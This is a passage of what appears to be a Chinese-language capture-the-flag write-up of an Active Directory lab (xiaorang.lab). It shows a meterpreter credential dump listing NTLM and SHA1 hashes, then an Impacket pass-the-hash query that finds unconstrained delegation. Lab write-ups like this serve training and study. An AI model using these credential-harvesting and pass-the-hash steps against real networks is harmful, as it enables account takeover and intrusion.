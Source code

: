 ![image-20230809162203916](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308091622950.png)

Flag02

![image-20230809162258071](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308091622106.png)

## flag03 & flag04

抓 Hash

```shell
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain    NTLM                              SHA1
--------  ------    ----                              ----
Adrian    WIN19     e19ccf75ee54e06b06a5907af13cef42  9131834cf4378828626b1beccaa5dea2c46f9b63
WIN19$    XIAORANG  2c05ad434d747b203a57565194891b38  a77f9e918a252e3ff4aec0f8ee06a60fc61cfac6
WIN19$    XIAORANG  5943c35371c96f19bda7b8e67d041727  5a4dc280e89974fdec8cf1b2b76399d26f39b8f8

wdigest credentials
===================

Username  Domain    Password
--------  ------    --------
(null)    (null)    (null)
Adrian    WIN19     (null)
WIN19$    XIAORANG  (null)

kerberos credentials
====================

Username  Domain        Password
--------  ------        --------
(null)    (null)        (null)
Adrian    WIN19         (null)
WIN19$    xiaorang.lab  ...... (略)
WIN19$    xiaorang.lab  ...... (略)
win19$    XIAORANG.LAB  ...... (略)
```

![image-20230809162903682](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308091629717.png)

查看域内委派关系

```shell
$ proxychains findDelegation.py xiaorang.lab/'WIN19$' -hashes :2c05ad434d747b203a57565194891b38 -dc-ip 172.22.4.7
Impacket v0.11.0 - Copyright 2023 Fortra

AccountName  AccountType  DelegationType  DelegationRightsTo
-----------  -----------  --------------  ------------------
WIN19$       Computer     Unconstrained   N/A
```
